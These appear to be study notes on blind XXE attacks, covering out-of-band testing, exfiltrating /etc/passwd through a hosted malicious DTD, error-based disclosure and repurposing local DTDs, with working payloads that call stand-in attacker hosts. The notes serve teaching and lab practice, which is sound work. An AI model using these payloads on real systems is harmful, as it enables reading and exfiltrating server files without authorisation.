



## Blind XXE:
When the application **does not return the values of any defined external entities in its responses**, making direct retrieval of server-side files difficult. Instead, can:
- **Trigger XML parsing errors** to disclose data in error messages
- **Trigger OOB interactions** to find/exploit vulnerabilities, & sometimes exfiltrate sensitive data with the interaction data.

### Testing for Blind XXE:
Define external entities pointing to a server you control, make use of the defined entity in a data value in the XML, & monitor for interactions: 
- `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://adversary.com"> ]>`

#XML-parameter-entities are special XML entities which **can only be referenced elsewhere INSIDE the DTD (`DOCTYPE`)**, and use a `%` when declared & referenced.
- `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://adversary.com"> %xxe; ]>`


### Exfiltrating Data with Blind XXE
#dtd #external-dtd
Typically involves **hosting a malicious DTD on a system you control**, and then **invoking the external DTD** from **within the in-band XXE payload**. 
Can do so by reading a `SYSTEM` file + appending the contents to a URL query parameter, that's sent to the attacker domain.

Due to some XML parsers using an API that validates which characters can appear within URLs (e.g. no `newline` characters), may need to **try using the `ftp` protocol** or target a different file.
#### Steps:
1. Create & host a DTD at `https://attacker.com/evil.dtd`, that defines & uses three parameter entities (`%file`, `%eval` and `%exfiltrate`).
	- `%file` contains contents of exfiltrated data.
	- `%exfiltrate` issues an OOB request to the attacker's server, with the value of `%file` appended as a query parameter.
	- `%eval` causes the dynamic declaration of the `%exfiltrate` entity.
2. Then, the DTD uses both the `%eval` & `%exfiltrate` entities, to perform both actions specified in their definitions. 
``` dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
3. Finally, **reference the external `evil.dtd`** via an XXE on the victim app, causing it to **fetch it & interpret it in-line**, executing the above steps on the target site.
   `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://evil.net/exploit"> %xxe;]>` 

### Blind XXE to retrieve data via error messages
Use an OOB interaction to reference a malicious DTD, that **triggers an XML parsing error** that **returns some kind of data within the response**. 

Using the same `.dtd` format (see [Exfiltrating Data with Blind XXE](#Exfiltrating%20Data%20with%20Blind%20XXE)) can adjust it to **trigger an error response** disclosing file data:
- The `error` entity will be evaluated by loading a `nonexistent-file` whose name contains the value of the `file` entity.
``` dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent-file/%file;'>">
%eval;
%error;
```



### Blind XXE by repurposing a local DTD
Because the above techniques rely on using an XML parameter `%entity` **within the definition of *another* parameter entity**, this is only possible for external `DTD`'s, but **not internal `DOCTYPE` `DTD`'s**.

When OOB interactions are blocked, can instead try and exploit a loophole in the XML spec:
*When using a mix of **internal/external DTDs**, the **internal DTD** can **redefine existing entities declared in the external DTD***, hopefully in a way that **triggers a parsing error** containing sensitive data.
- The external DTD could be **local** (on the site/fileserver), or a different domain.

#### Locating an external DTD to repurpose
Can enumerate local DTD files just by **attempting to load them from within the internal DTD**, using a common list of DTD files. As many are open source, can often obtain a copy via the internet to review.
*E.g. can submit requests like:*
``` dtd
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

**For example, the below payload:**
- Declares a local DTD `foo`
- Defines `&local_dtd` to contain contents of the external DTD existing on the local filesystem
- **(Re)defines `%custom_entity` from the external DTD** to contain the non-existent file error-based XXE exploit used above.
- Uses the `%local_dtd` entity - interpreting the external DTD, including the redefined value of the `%custom_entity` entity
``` dtd
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

#### Lab: 
- Test for known external DTDs existing on the fileserver: enumerate known paths for them based on wordlist/intruder. In this case, `file:///usr/share/yelp/dtd/docbookx.dtd` works (no error message `No such file or directory`)
- Referencing the [file spec (open source)](https://github.com/GNOME/yelp/blob/master/data/dtd/docbookx.dtd), can see multiple custom entities are defined. Pick one to redefine - e.g. `%ISOamso`.
- Declare an **internal DTD that**
	- **Imports & redefines this variable** from the discovered **external DTD**.
	- **Triggers an error response** (nonexistent file read) with the contents of a desired file.
	
	